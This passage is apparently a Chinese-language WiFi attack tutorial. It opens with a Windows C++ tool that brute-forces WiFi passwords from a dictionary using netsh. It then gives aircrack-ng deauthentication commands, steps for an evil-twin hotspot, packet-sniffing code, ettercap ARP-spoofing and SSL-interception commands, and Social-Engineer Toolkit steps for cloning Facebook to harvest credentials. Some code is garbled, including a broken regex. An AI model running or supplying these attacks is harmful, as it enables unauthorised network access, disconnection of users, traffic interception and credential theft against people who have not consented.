            CreateWindow(L"BUTTON", L"取消",
                WS_VISIBLE | WS_CHILD, 230, 70, 100, 30, hwnd, (HMENU)3, NULL, NULL);
            break;
        }

        case WM_COMMAND: {
            HGLOBAL hMem = NULL; // 提升 hMem 定义到 switch 外部
            switch (LOWORD(wParam)) {
            case 1: // 复制MAC地址
                OpenClipboard(hwnd);
                EmptyClipboard();
                hMem = GlobalAlloc(GMEM_MOVEABLE, (macAddress->size() + 1) * sizeof(wchar_t));
                if (hMem) {
                    memcpy(GlobalLock(hMem), macAddress->c_str(), (macAddress->size() + 1) * sizeof(wchar_t));
                    GlobalUnlock(hMem);
                    SetClipboardData(CF_UNICODETEXT, hMem);
                }
                CloseClipboard();
                MessageBox(hwnd, L"MAC地址已复制到剪贴板！", L"提示", MB_OK | MB_ICONINFORMATION);
                break;

            case 2: // 攻击WiFi
                MessageBox(hwnd, L"攻击已启动！", L"提示", MB_OK | MB_ICONWARNING);
                DestroyWindow(hwnd);
                break;

            case 3: // 取消
                DestroyWindow(hwnd);
                break;
            }
            break;
        }

        case WM_DESTROY:
            PostQuitMessage(0);
            break;

        default:
            return DefWindowProc(hwnd, msg, wParam, lParam);
        }
        return 0;
        };

    wc.hInstance = GetModuleHandle(NULL);
    wc.lpszClassName = PROMPT_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(PROMPT_CLASS, L"是否攻击WiFi",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 350, 150,
        NULL, NULL, GetModuleHandle(NULL), (LPVOID)&macAddress);

    ShowWindow(hwnd, SW_SHOW);

    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
}

// 函数：使用 Netsh 尝试连接 WiFi
bool TryConnectToWiFi(const std::wstring& ssid, const std::wstring& password) {
    const std::string configFile = "wifi_profile.xml";

    // 清除旧的 WiFi 配置
    std::string deleteProfileCmd = "netsh wlan delete profile name="" + std::string(ssid.begin(), ssid.end()) + """;
    system(deleteProfileCmd.c_str());

    // 创建 WiFi 配置文件
    std::ofstream file(configFile);
    if (!file) return false;

    file << "<?xml version="1.0"?>
"
        << "<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
"
        << "    <name>" << std::string(ssid.begin(), ssid.end()) << "</name>
"
        << "    <SSIDConfig>
"
        << "        <SSID>
"
        << "            <name>" << std::string(ssid.begin(), ssid.end()) << "</name>
"
        << "        </SSID>
"
        << "    </SSIDConfig>
"
        << "    <connectionType>ESS</connectionType>
"
        << "    <connectionMode>manual</connectionMode>
"
        << "    <MSM>
"
        << "        <security>
"
        << "            <authEncryption>
"
        << "                <authentication>WPA2PSK</authentication>
"
        << "                <encryption>AES</encryption>
"
        << "                <useOneX>false</useOneX>
"
        << "            </authEncryption>
"
        << "            <sharedKey>
"
        << "                <keyType>passPhrase</keyType>
"
        << "                <protected>false</protected>
"
        << "                <keyMaterial>" << std::string(password.begin(), password.end()) << "</keyMaterial>
"
        << "            </sharedKey>
"
        << "        </security>
"
        << "    </MSM>
"
        << "</WLANProfile>
";
    file.close();

    // 添加 WiFi 配置
    std::string addProfileCmd = "netsh wlan add profile filename="" + configFile + """;
    if (system(addProfileCmd.c_str()) != 0) {
        return false;
    }

    // 尝试连接
    std::string connectCmd = "netsh wlan connect name="" + std::string(ssid.begin(), ssid.end()) + """;
    if (system(connectCmd.c_str()) == 0) {
        std::this_thread::sleep_for(std::chrono::seconds(2));
        return CanPingBaidu();
    }

    return false;
}

// 函数：从字典中尝试密码
std::wstring BruteForceWiFi(HWND hwnd, const std::wstring& ssid, const std::wstring& dictionaryFile) {
    std::wifstream dictionary(dictionaryFile);
    if (!dictionary) {
        MessageBox(hwnd, L"无法打开密码字典文件！", L"错误", MB_OK | MB_ICONERROR);
        return L"";
    }

    size_t totalAttempts = 0;
    std::wstring password;
    while (std::getline(dictionary, password)) {
        if (!password.empty()) totalAttempts++;
    }
    dictionary.clear();
    dictionary.seekg(0, std::ios::beg);

    HWND progressBar = GetDlgItem(hwnd, 2000);
    SendMessage(progressBar, PBM_SETRANGE, 0, MAKELPARAM(0, totalAttempts));

    size_t currentAttempt = 0;

    while (std::getline(dictionary, password) && !stopBruteForce) {
        if (password.empty()) continue;

        if (TryConnectToWiFi(ssid, password)) {
            dictionary.close();
            std::this_thread::sleep_for(std::chrono::seconds(2)); // 等待2秒
            auto macAddress = GetConnectedWiFiMacAddress();       // 获取当前连接的WiFi MAC地址
            ShowAttackPrompt(macAddress);                         // 显示询问窗口
            return password;                                      // 返回正确密码
        }

        currentAttempt++;
        SendMessage(progressBar, PBM_SETPOS, currentAttempt, 0);
    }

    dictionary.close();
    return L""; // 未找到正确密码
}

// WiFi详情窗口过程
LRESULT CALLBACK DetailWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    static WiFiInfo* wifi = nullptr;

    switch (uMsg) {
    case WM_CREATE: {
        CREATESTRUCT* cs = (CREATESTRUCT*)lParam;
        wifi = (WiFiInfo*)cs->lpCreateParams;

        std::wstringstream details;
        details << L"SSID: " << wifi->ssid << L"
"
            << L"认证算法: " << wifi->authAlgo << L"
"
            << L"BSS类型: " << wifi->bssType << L"
"
            << L"信号强度: " << wifi->signalQuality << L"%
"
            << L"频段: " << wifi->band;

        CreateWindow(L"STATIC", details.str().c_str(),
            WS_VISIBLE | WS_CHILD, 10, 10, 350, 100,
            hwnd, NULL, NULL, NULL);

        CreateWindow(PROGRESS_CLASS, NULL,
            WS_VISIBLE | WS_CHILD, 10, 120, 350, 20,
            hwnd, (HMENU)2000, NULL, NULL);

        CreateWindow(L"BUTTON", L"开始爆破",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 10, 150, 100, 30,
            hwnd, (HMENU)3000, NULL, NULL);

        CreateWindow(L"BUTTON", L"停止爆破",
            WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON, 120, 150, 100, 30,
            hwnd, (HMENU)3001, NULL, NULL);
    } break;

    case WM_COMMAND: {
        switch (LOWORD(wParam)) {
        case 3000: // 开始爆破
            std::thread([](HWND hwnd, WiFiInfo wifi) {
                auto password = BruteForceWiFi(hwnd, wifi.ssid, L"passwords.txt");
                if (!password.empty()) {
                    MessageBox(hwnd, (L"密码爆破成功，密码为：" + password).c_str(), L"成功", MB_OK | MB_ICONINFORMATION);
                }
                else {
                    MessageBox(hwnd, L"密码爆破失败！未找到正确密码。", L"失败", MB_OK | MB_ICONERROR);
                }
                }, hwnd, *wifi).detach();
                break;

        case 3001: // 停止爆破
            stopBruteForce = true;
            break;
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}

// 显示WiFi详情窗口
void ShowWiFiDetailWindow(HINSTANCE hInstance, WiFiInfo& wifi) {
    const wchar_t DETAIL_CLASS[] = L"WiFiDetailWindow";

    WNDCLASS wc = {};
    wc.lpfnWndProc = DetailWindowProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = DETAIL_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(DETAIL_CLASS, L"WiFi 详情",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 250,
        NULL, NULL, hInstance, &wifi);

    ShowWindow(hwnd, SW_SHOW);
}

// 主窗口过程
LRESULT CALLBACK MainWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
    switch (uMsg) {
    case WM_CREATE: {
        for (size_t i = 0; i < wifiList.size(); i++) {
            CreateWindow(L"BUTTON", wifiList[i].ssid.c_str(),
                WS_VISIBLE | WS_CHILD | BS_DEFPUSHBUTTON,
                10, 30 + static_cast<int>(i) * 40, 350, 30,
                hwnd, reinterpret_cast<HMENU>(1000 + i), NULL, NULL);
        }
    } break;

    case WM_COMMAND: {
        int buttonId = LOWORD(wParam);
        if (buttonId >= 1000 && buttonId < 1000 + wifiList.size()) {
            ShowWiFiDetailWindow((HINSTANCE)GetWindowLongPtr(hwnd, GWLP_HINSTANCE), wifiList[buttonId - 1000]);
        }
    } break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    default:
        return DefWindowProc(hwnd, uMsg, wParam, lParam);
    }

    return 0;
}

// 主函数
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    FetchWiFiNetworks();

    const wchar_t MAIN_CLASS[] = L"WiFiMainWindow";

    WNDCLASS wc = {};
    wc.lpfnWndProc = MainWindowProc;
    wc.hInstance = hInstance;
    wc.lpszClassName = MAIN_CLASS;

    RegisterClass(&wc);

    HWND hwnd = CreateWindow(MAIN_CLASS, L"WiFi 网络",
        WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, 400, 600,
        NULL, NULL, hInstance, NULL);

    if (hwnd == NULL) {
        return 0;
    }

    ShowWindow(hwnd, nCmdShow);

    MSG msg = {};
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    return 0;
}

```

#### 1. 结构体定义`struct WiFiInfo`

```
struct WiFiInfo {
    std::wstring ssid;      // WiFi名称
    std::wstring authAlgo;  // 认证算法
    std::wstring bssType;   // BSS类型
    int signalQuality;      // 信号质量
    std::wstring band;      // 频段
};
```

##### 功能

* 这是一个结构体，用于存储扫描到的 WiFi 网络的基本信息：

* `**ssid**`：WiFi 名称。
* `**authAlgo**`：认证算法（如 WPA2-PSK）。
* `**bssType**`：BSS 类型（如基础设施模式或 Ad hoc 模式）。
* `**signalQuality**`：信号质量，范围为 0 到 100 的整数值。
* `**band**`：频段（如 2.4GHz 或 5GHz）。

#### 2. 全局变量

```
std::vector<WiFiInfo> wifiList;  // WiFi列表
std::atomic<bool> stopBruteForce = false;  // 停止爆破的标志
```

* `**wifiList**`：存储扫描到的 WiFi 网络信息。
* `**stopBruteForce**`：用于控制 WiFi 密码爆破的标志，支持线程安全操作。

#### 3. 获取 WiFi 网络信息`FetchWiFiNetworks`

```
void FetchWiFiNetworks() {
    HANDLE clientHandle = NULL;
    DWORD version = 2;
    DWORD negotiatedVersion = 0;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_AVAILABLE_NETWORK_LIST networkList = NULL;
```

##### 功能

* 扫描附近的 WiFi 网络并将其信息存储到全局变量 `wifiList` 中。

##### 工作原理

1. **初始化 WiFi 客户端句柄**：

* 使用 `WlanOpenHandle` 打开 WiFi 客户端句柄。

1. **枚举 WiFi 接口**：

* 使用 `WlanEnumInterfaces` 获取可用的 WiFi 接口。

1. **扫描网络**：

* 使用 `WlanGetAvailableNetworkList` 获取接口中的可用 WiFi 网络列表。
* 遍历每个 WiFi 网络，提取其 `SSID`、`认证算法`、`BSS 类型`、`信号质量` 和 `频段`。

1. **释放资源**：

* 使用 `WlanFreeMemory` 释放动态分配的内存。

#### 4. 获取当前连接的 WiFi MAC 地址`GetConnectedWiFiMacAddress`

```
std::wstring GetConnectedWiFiMacAddress() {
    HANDLE clientHandle = NULL;
    PWLAN_INTERFACE_INFO_LIST interfaceList = NULL;
    PWLAN_CONNECTION_ATTRIBUTES connectionAttributes = NULL;
```

##### 功能

* 获取当前连接的 WiFi 的 MAC 地址。

##### 工作原理

1. **获取 WiFi 接口列表**：

* 枚举系统中的所有 WiFi 接口。

1. **查询连接状态**：

* 使用 `WlanQueryInterface` 查询接口的当前连接状态。

1. **提取 MAC 地址**：

* 如果接口处于连接状态，读取连接属性中的 `dot11Bssid` 字段，并将其格式化为 `XX:XX:XX:XX:XX:XX` 格式的字符串。

#### 5. 显示攻击提示窗口`ShowAttackPrompt`

```
void ShowAttackPrompt(const std::wstring& macAddress) {
```

##### 功能

* 弹出一个窗口，显示当前连接的 WiFi 的 MAC 地址，并提供以下选项：

1. **复制 MAC 地址**。
2. **攻击 WiFi**。
3. **取消**。

##### 窗口组件

* **静态文本**：显示提示信息和 MAC 地址。
* **只读文本框**：显示 MAC 地址，可以复制。
* **按钮**：实现复制、攻击和取消操作。

#### 6. 尝试连接 WiFi`TryConnectToWiFi`

```
bool TryConnectToWiFi(const std::wstring& ssid, const std::wstring& password) {
```

##### 功能

* 使用指定的密码尝试连接到指定的 WiFi 网络。

##### 工作原理

1. **清除旧配置**：

* 使用 `netsh wlan delete profile` 删除指定 SSID 的旧配置。

1. **创建新的配置文件**：

* 根据 SSID 和密码生成 XML 配置文件。

1. **加载配置文件**：

* 使用 `netsh wlan add profile` 加载新的 WiFi 配置。

1. **尝试连接**：

* 使用 `netsh wlan connect` 命令连接到 WiFi。

#### 7. 爆破 WiFi 密码`BruteForceWiFi`

```
std::wstring BruteForceWiFi(HWND hwnd, const std::wstring& ssid, const std::wstring& dictionaryFile) {
```

##### 功能

* 从密码字典中逐一尝试密码，爆破指定 WiFi 的密码。

##### 工作原理

1. **读取密码字典**：

* 加载密码字典文件，并统计密码总数。

1. **尝试密码**：

* 遍历字典中的每个密码，使用 `TryConnectToWiFi` 尝试连接。
* 如果连接成功，则返回正确的密码。

1. **显示攻击提示**：

* 如果爆破成功，调用 `ShowAttackPrompt` 显示 MAC 地址并询问下一步操作。

#### 8. 窗口处理`MainWindowProc`

```
LRESULT CALLBACK MainWindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
```

##### 功能

* 处理主窗口的消息，包括创建窗口组件和响应用户交互。

##### 工作原理

1. **创建 WiFi 列表按钮**：

* 遍历 `wifiList`，为每个 WiFi 创建一个按钮。

1. **响应按钮点击**：

* 点击按钮时，打开对应 WiFi 的详情窗口。

由于主程序太大了，我们单开一个项目来写去认证帧WIFI攻击

### 2.借用Aircrack的去认证：

#### 步骤1: 下载和安装

首先，你需要下载Aircrack-ng的Windows版本。你可以从Aircrack-ng的[官方下载页面](https://www.aircrack-ng.org/downloads.html)获取到Windows版本的二进制文件。

1. 访问Aircrack-ng的下载页面。
2. 下载适用于Windows的压缩文件。
3. 解压缩到你的系统中的某个目录。

#### 步骤2: 安装必要的组件

虽然Aircrack-ng的某些功能在Windows上可以使用，但是你可能需要安装额外的软件来支持更广泛的功能，如：

* **WinPcap**或**Npcap**（Npcap是WinPcap的现代替代品，提供更好的支持和性能）：这些是Windows上的包捕获库，用于网络流量的监测。可以从[Npcap官网](https://nmap.org/npcap/)下载。

**加环境变量（windows可能不支持）**



```
..\aircrack-ng-1.7-win\aircrack-ng-1.7-win\bin
```

**确认安装（windows可能不支持）**



#### 2. 将无线网卡切换到监控模式（以下为Linux系统下）

运行以下命令：

```
airmon-ng start wlan0
```

* 这里 `wlan0` 是你的无线网卡的接口名称，具体名称可以通过 `iwconfig` 查看。
* 执行后，网卡会切换到监控模式，通常会显示为 `wlan0mon`。

#### 3. 发现目标无线网络

使用 `airodump-ng` 扫描周围的无线网络：

```
airodump-ng wlan0mon
```

* 输出会显示附近的无线网络及其信息：

* **BSSID**：无线网络的 MAC 地址。
* **CH**：信道。

##### ESSID：无线网络的名称。

#### 4. 对目标网络进行去认证帧攻击

使用以下命令发送去认证数据包：

```
aireplay-ng --deauth <次数> -a <目标BSSID> -c <客户端MAC地址> wlan0mon
```

##### 命令参数说明：

* `--deauth <次数>`：指定发送去认证帧的数量。如果希望持续攻击，可以设置为 `0`（无限制）。
* `-a <目标BSSID>`：目标路由器的 MAC 地址。
* `-c <客户端MAC地址>`：指定要踢下线的客户端设备的 MAC 地址。如果不指定，将影响所有客户端。
* `wlan0mon`：监控模式的无线网卡接口。

##### 示例：

踢掉所有连接到目标 AP（BSSID: `02:32:cf:b2:52:42`）的客户端：

```
aireplay-ng --deauth 10 -a 02:32:cf:b2:52:42 wlan0mon
```

踢掉特定客户端（MAC: `XX:XX:XX:XX:XX:XX`）：

```
aireplay-ng --deauth 10 -a 02:32:cf:b2:52:42 -c XX:XX:XX:XX:XX:XX wlan0mon
```

..言尽于此..

# T5·伪造原WIFI，迫使连接，获得信息

以下环境windows和linux

## 1·开启WIFI热点并且设置名字为原WIFI的，密码也为原来的

### 方法一：通过“设置”开启

1. **打开“设置”**：

* 按下快捷键 `Win + I`，或者点击任务栏上的“开始菜单”并选择“设置”。

1. **进入网络和 Internet 设置**：

* 在“设置”界面，点击左侧的“网络和 Internet”。

1. **找到“移动热点”**：

* 在右侧找到“移动热点”选项并点击它。

1. **开启移动热点**：

* 在“移动热点”页面，将“与其他设备共享 Internet 连接”开关切换到“开”。

1. **设置热点参数（可选）**：

* 点击“属性”可以查看或更改热点的网络名称和密码。
* 确保“共享我的 Internet 连接自”选项选择了正确的网络（例如 Wi-Fi 或以太网）。

### 方法二：通过快捷方式快速开启

1. **打开快捷操作中心**：

* 按 `Win + A` 或点击任务栏右下角的网络图标。

1. **找到“移动热点”图标**：

* 在快捷操作菜单中找到“移动热点”按钮。如果没有看到，可以点击“编辑快速设置”来添加它。

1. **点击开启**：

* 点击“移动热点”按钮即可快速开启或关闭。

## 2·获得内网信息

### A.使用 Npcap 捕获网络流量：

```
#include <pcap.h>
#include <iostream>
#include <cstring>

void packetHandler(u_char *userData, const struct pcap_pkthdr* pkthdr, const u_char* packet) {
    std::cout << "Packet capture length: " << pkthdr->caplen << std::endl;
    std::cout << "Packet total length: " << pkthdr->len << std::endl;
}

int main() {
    char errbuf[PCAP_ERRBUF_SIZE];
    pcap_if_t *alldevs, *device;
    pcap_t *adhandle;

    // Find all network interfaces
    if (pcap_findalldevs(&alldevs, errbuf) == -1) {
        std::cerr << "Error in pcap_findalldevs: " << errbuf << std::endl;
        return 1;
    }

    // Select the first device
    device = alldevs;
    if (device == NULL) {
        std::cout << "No devices found." << std::endl;
        return 1;
    }

    std::cout << "Using device: " << device->name << std::endl;

    // Open the device for packet capture
    adhandle = pcap_open_live(device->name, 65536, 1, 1000, errbuf);
    if (adhandle == NULL) {
        std::cerr << "Couldn't open device " << device->name << ": " << errbuf << std::endl;
        pcap_freealldevs(alldevs);
        return 1;
    }

    // Capture packets
    pcap_loop(adhandle, 0, packetHandler, NULL);

    // Close the handle
    pcap_close(adhandle);
    pcap_freealldevs(alldevs);

    return 0;
}

```

### B.`Npcap`来捕获数据包并简单分析HTTP流量以提取图片URL：

```
#include <pcap.h>
#include <iostream>
#include <regex>
#include <string>

void packetHandler(u_char *userData, const struct pcap_pkthdr* pkthdr, const u_char* packet) {
    // 将捕获的数据转换为字符串，便于处理
    std::string data(reinterpret_cast<const char*>(packet), pkthdr->caplen);

    // 正则表达式查找图片URL
    std::regex img_regex(" 1) {
        std::cout << "Image found: " << img_match[1] << std::endl; // 输出图片URL
    }
}

int main() {
    char errbuf[PCAP_ERRBUF_SIZE];
    pcap_t *handle = pcap_open_live("eth0", BUFSIZ, 1, 1000, errbuf);
    if (handle == nullptr) {
        std::cerr << "Could not open device: " << errbuf << std::endl;
        return 1;
    }

    pcap_loop(handle, 10, packetHandler, nullptr);

    pcap_close(handle);
    return 0;
}
```

### C.使用ettercap工具进行ARP

地址：[ettercap](https://github.com/Ettercap/ettercap)

用法：在文本模式下，你可以通过命令行启动 Ettercap 并使用一系列参数和选项来执行各种功能。以下是一些基本的 Ettercap 指令：

1. **启动 Ettercap**:

* 在文本模式下启动：

```
ettercap -C
```

```
- 在静默模式下仅用特定的过滤器执行攻击：
```

```
ettercap -Tq -F [filter.ef] -M arp /target1/ /target2/
```

1. **ARP 欺骗攻击**:

* 对单一目标执行 ARP 欺骗：

```
ettercap -T -M arp:remote /gateway_ip/ /target_ip/
```

```
- 对整个网络进行 ARP 欺骗：
```

```
ettercap -T -M arp:remote /gateway_ip/ //
```

1. **Sniffing 模式**:

* 统一 Sniffing 模式，用于同时捕获 IPv4 和 IPv6 数据：

```
ettercap -T -M sniff:unified
```

1. **使用特定的网络接口**:

* 指定使用特定网络接口：

```
ettercap -T -i eth0 -M arp /gateway_ip/ /target_ip/
```

1. **保存捕获的数据到文件**:

* 将捕获的数据保存到文件：

```
ettercap -w capture_file.pcap
```

1. **过滤和解码**:

* 应用过滤器文件来解码或修改数据包：

```
ettercap -T -F filter.ef -M arp /gateway_ip/ /target_ip/
```

1. **SSL/TLS 拦截**:

* 拦截并解密 SSL/TLS 通信：

```
ettercap -T -M arp:remote /gateway_ip/ /target_ip/ -S
```

### D.伪站钓鱼(用**Social-Engineer Toolkit)**

**Social-Engineer Toolkit (SET)** 是一个强大的开源框架，专为社会工程学攻击（Social Engineering Attacks）而设计。它可以帮助安全研究人员模拟现实中的社工攻击，从而测试系统和人员的安全意识和防御能力。

### **主要功能**

SET 是一个模块化工具，涵盖了广泛的社工攻击技术，常用于合法的渗透测试。以下是其主要功能模块：

1. **网络攻击向量**：

* 创建基于浏览器的攻击，例如利用 JavaScript 和 HTML 在目标浏览器上执行恶意代码。
* 执行跨站点脚本（XSS）或恶意网页攻击。

1. **钓鱼攻击**：

* 创建高仿的钓鱼页面，用于诱骗目标用户输入敏感信息（如用户名、密码）。
* 支持发送恶意电子邮件和短信。

1. **恶意文件生成**：

* 生成恶意的可执行文件（如 `.exe`），并诱导目标下载和执行。
* 支持使用编码技术绕过杀毒软件检测。

1. **USB/HID 攻击载荷**：

* 创建用于 USB 存储设备的恶意载荷，插入目标系统时自动执行。
* 支持 HID（Human Interface Device）攻击，通过伪造键盘输入执行恶意命令。

1. **社工工具集**：

* 提供各类模板和脚本，用于模拟社工攻击场景，例如伪造技术支持电话或社交媒体账户。

1. **高级攻击技术**：

* 针对目标系统或用户的高级社会工程攻击，例如二维码钓鱼、二维码链接恶意载荷等。

### **安装和使用**

#### **安装**

SET 支持大多数基于 Linux 的操作系统，尤其是 Kali Linux。以下是安装步骤：

1. **克隆仓库**：

```
git clone https://github.com/trustedsec/social-engineer-toolkit.git
```

1. **切换到目录并安装**：

```
cd social-engineer-toolkit
sudo python3 setup.py install
```

1. **运行 SET**：

```
sudo setoolkit
```

#### 使用（钓鱼网站）

**目标**：创建伪造网站，用于诱骗用户输入敏感信息。

1. 启动 SET 后，选择以下选项：

```
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
```

1. 选择托管方式：

```
1) Web Templates
2) Site Cloner
```

```
- **Web Templates**：使用内置的钓鱼页面模板（例如 Facebook、Gmail）。
- **Site Cloner**：克隆现有网站（如目标的登录页面）。
```

1. 如果选择 **Site Cloner**，输入目标 URL。例如：

```
Enter the URL to clone: https://www.facebook.com
```

1. 设置监听接口（通常是本机 IP 地址）和端口（默认 80）。

```
Enter the IP for the POST back in Harvester/Tabnabbing: <your IP>
```
